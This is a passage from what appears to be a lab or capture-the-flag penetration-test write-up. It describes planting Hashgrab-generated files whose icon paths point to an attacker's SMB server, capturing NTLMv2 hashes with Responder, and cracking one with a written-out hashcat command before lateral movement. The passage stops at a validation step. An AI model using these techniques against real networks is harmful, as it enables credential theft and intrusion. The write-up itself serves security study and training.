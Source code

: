 ### How Hashgrab Works

The files generated by Hashgrab (`.scf`, `.url`, `.library-ms`, `desktop.ini`, `.lnk`)  
reference a remote UNC path such as `\\10.0.16.XXX\share\icon.ico`.

When a user (or a background process) opens the `File-Share` folder,  
Windows Explorer automatically attempts to render icons and metadata.  
This forces the client to authenticate over SMB to the attacker-controlled server,  
leaking NTLM credentials without requiring the user to click or execute the file.

### Result

When the share was accessed, Responder captured NTLMv2 hashes from domain users: 

```bash
h.grangon::BUILDINGMAGIC:462c1f9f3ef22094:D49C872D04139DFFB021167A4D26D852:010100000000000000910F13BC20DC01FD9B8FC29C0F752A00000000020 <---snip---> 
 
 ```

---

## Credential Extraction – Cracking Captured NTLM Hash

The NTLMv2 hash captured by Responder was saved to a file (`captured.hash`) 
and cracked with hashcat.

### Cracking with Hashcat
```bash
hashcat -m 5600 -a 0 captured.hash /usr/share/wordlists/rockyou.txt
```

Result: 

```bash
h.grangon : <cracked_password> 
```

### Observations

The cracked NTLMv2 hash provided valid credentials for ```h.grangon```

These credentials expanded available attack paths for lateral movement  
and further privilege escalation within the domain.

--- 

## Lateral Movement – Compromise of h.grangon

The NTLMv2 hash captured via the malicious files was cracked successfully, 
revealing credentials for the user `h.grangon`.

### Validation
The credentials were validated against SMB:
